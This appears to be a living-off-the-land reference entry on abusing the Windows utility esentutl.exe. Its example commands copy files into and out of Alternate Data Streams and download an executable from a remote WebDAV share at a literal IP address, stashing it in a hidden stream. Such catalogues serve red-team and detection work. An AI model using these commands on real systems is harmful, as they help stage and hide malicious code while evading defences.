 ## Esentutl.exe
* Functions: Copy, Download, Write ADS, Read ADS
```

esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
Copies the source VBS file to the destination VBS file.

esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.

esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
Copies the source Alternate Data Stream (ADS) to the destination EXE.

esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
Copies the source EXE to the destination Alternate Data Stream (ADS) of the destination file.

esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o
Copies the source EXE to the destination EXE file.

esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
Copies the source EXE to the destination EXE file
```
   
* Resources:   
  * https://twitter.com/egre55/status/985994639202283520
   
* Full path:   
  * c:\windows\system32\esentutl.exe
  * c:\windows\sysWOW64\esentutl.exe
   
* Notes: Thanks to egre55 - @egre55  
   
